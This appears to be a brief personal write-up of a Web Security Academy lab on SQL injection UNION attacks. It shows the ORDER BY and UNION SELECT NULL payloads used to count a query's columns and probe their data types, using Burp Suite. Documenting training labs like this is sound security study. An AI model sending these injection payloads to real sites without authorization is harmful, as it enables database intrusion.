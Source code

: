 # SQL injection UNION attack, determining the number of columns returned by the query

1. SQLi: product category filter.
2. Goal: determine the number of columns.

### Analysis
- Website target: `https://0a12009f035675db839151fe008e0055.web-security-academy.net/`
- Use Burp suite.
- `ctrl + u`: URL encode.

1. Find the number of columns.
```sql
' order by 3--
'-- I found 3 columns.
```

2. Find the data type of columns.
```sql
' union select null, null, null-- 
'-- or
' union select '1', '1', '1'--
```